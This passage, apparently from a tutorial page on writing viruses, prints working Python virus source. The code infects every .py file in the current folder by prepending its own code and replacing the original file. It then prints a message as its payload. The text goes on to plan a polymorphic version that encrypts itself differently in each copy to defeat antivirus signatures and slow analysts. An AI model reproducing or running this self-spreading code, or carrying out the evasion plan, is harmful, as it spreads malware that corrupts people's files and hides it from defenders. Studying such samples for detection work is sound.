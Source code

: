 ```shell
# Virus:Start
import os
import sys


def infect(virus):
    path = "."
    for file in os.listdir(path):
        if file.endswith(".py"):
            script = open(file, "r")
            text_script = script.read()
            script.close()
            if not "# Virus:Start" in text_script:
                infected = open(file + ".infected", "w")
                infected.write(virus + "\n")
                infected.write(text_script)
                infected.close()
                os.remove(file)
                os.rename(file + ".infected", file)


def payload():
    print("You were infected")


def run(virus):
    infect(virus)
    payload()


host = open(sys.argv[0], "r")
text_host = host.read()
host.close()
virus = text_host[text_host.find("# Virus:Start"):text_host.rfind("# Virus:End") + len("# Virus:End")]
run(virus)
# Virus:End
print("Hello world!")
```

In this trace you can see how after the execution of the virus, the file hello.py has increased in size, as it now 
contains the virus code.

The main weakness of this virus is that the code is contained between the comments "#Virus:Start" and "#Virus:End". 
With this data an antivirus is able to detect and remove the code in a trivial way. On the other hand, as the code is 
always the same, it can be used as a virus signature for detection.

## Correcting weaknesses
In view of the weaknesses of the previous virus, then a protection will be added which will encrypt the code so that, 
on the one hand the encryption is different after each infection (and therefore the signing of the code as well) and on 
the other so that analysts find it harder to know what the code does. Another thing that changes is that in this virus 
will stop using the comments "#Virus:Start" and "#Virus:End" as they are evidence of the virus itself. Finally, 
infected files will have the virus code at the end instead of the beginning.
